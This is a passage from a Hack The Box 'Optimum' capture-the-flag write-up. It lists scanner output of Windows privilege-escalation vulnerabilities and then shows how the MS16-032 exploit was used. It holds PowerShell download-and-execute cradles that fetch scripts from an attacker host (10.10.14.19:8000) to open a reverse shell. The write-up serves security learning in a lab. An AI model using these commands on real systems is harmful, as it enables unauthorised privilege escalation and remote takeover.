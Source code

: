 ```bash
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable

```

MS16-032, MS16-034, and MS16-135 are the vulns that have a VulnStatus of "Appears Vulnerable"

## Exploit MS16-032

Get MS16-032 exploit from Empire Project

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1

Edit the script and add the following at the bottom of the script.

```bash
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.19:8000/rev2.ps1')"

```

Copy rev.ps1 used earlier and increment the port at the bottom of the script and name rev2.ps1.

Now we just upload the MS16-032 script using the existing PowerShell cradel and get a reverse shell on our netcat listener.

```bash
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.19:8000/ms16-032.ps1')
```

![system](../../../assets/images/ctfs/hack_the_box/optimum/system.png)
